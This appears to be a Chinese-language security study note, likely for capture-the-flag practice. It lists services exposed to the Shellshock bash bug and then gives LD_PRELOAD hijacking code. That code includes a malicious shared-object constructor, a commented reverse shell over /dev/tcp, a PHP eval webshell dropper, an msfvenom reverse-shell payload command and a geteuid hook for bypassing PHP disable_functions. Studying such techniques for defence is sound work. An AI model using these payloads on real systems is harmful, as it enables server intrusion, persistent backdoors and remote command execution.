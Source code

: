 ![image-20220323181632204](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220323181632204.png)

![image-20220323181715322](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220323181715322.png)

对于当时的各大web服务来说影响相当广泛，只要是运行CGI相关服务的系统都存在被利用的可能（因为会在底层调用bash），比如

- 运行CGI脚本（通过mod_cgi 和 mod_cgid）的Apache HTTP 服务器；
- 某些DHCP客户端；
- 使用Bash的各种网络服务；
- 使用ForceCommand功能的 OpenSSH 服务器；
- 使用CGI作为网络接口的基于Linux的路由器；
- 使用bash的各种嵌入式设备。
- ……

## LD_PRELOAD

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("ls / > /var/www/html/look");
    // system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'");
    // system("echo \"<?php eval(\\$_POST[cmd]);?>\" > /var/www/html/ame.php");
}
```

```bash
$ gcc -fPIC -shared evil.c -o evil.so
```

```bash
$ msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp lhost=192.168.31.29 lport=8426 -f elf-so -o evil.so
```

加载恶意.so文件来劫持任意函数，常出现于bypass disable_functions和打redis中

当web服务提供了自定义环境变量的接口，也可以用它来rce

### bypass disable_functions

[浅谈几种Bypass disable_functions的方法](https://www.mi1k7ea.com/2019/06/02/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-disable-functions%E7%9A%84%E6%96%B9%E6%B3%95/)

#### getuid

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD");
        system(cmdline);
}
```
